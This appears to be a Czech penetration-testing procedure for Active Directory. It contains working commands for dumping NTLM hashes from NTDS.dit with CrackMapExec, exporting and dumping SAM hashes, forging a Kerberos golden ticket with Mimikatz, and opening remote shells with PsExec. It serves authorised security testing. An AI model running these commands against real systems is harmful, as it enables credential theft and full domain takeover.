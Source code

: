 Získat NTLM hash účtu uživatele nebo služby, který se v AD nachází v databázovém souboru NTDS.dit, kde jsou uloženy hashe všech hesel, nám umožňuje autentizaci z dalších zařízení. 

Extrahování hashe hesla nástrojem [crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec):
```
python3 -m pip install pipx

pipx ensurepath

pipx install crackmapexec

crackmapexec smb <adresa domenoveho radice> -u <uzivatel> -H <hashe uzivatelskeho uctu> --ntds
```

Získat NTLM hash z binárního databázového souboru SAM, který v operačních systémech Windows ukládá uživatelská jména a hesla v hashované podobě. 

Extrahování registrů (Windows):
```
REG SAVE hklm\system system
REG SAVE hklm\sam sam
```

Extrahování hashů (Kali Linux):
```
samdump2 system sam
```

Vygenerovat tiket pomocí nástrojem [Mimikatz](https://github.com/ParrotSec/mimikatz):
```
kerberos::golden /domain: <adresa domeny> /sid:<SID> /user:<uzivatelske jmeno> /id:<RID> /rc4:<NTLM hash hesla> /ptt
```

Vzdálený přístup pomocí [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):
```
PsExec.exe -accepteula \\<domena> cmd
```

### Možné výsledky testu
Vygenerování validního tiketu služby ST a přístup k dané službě.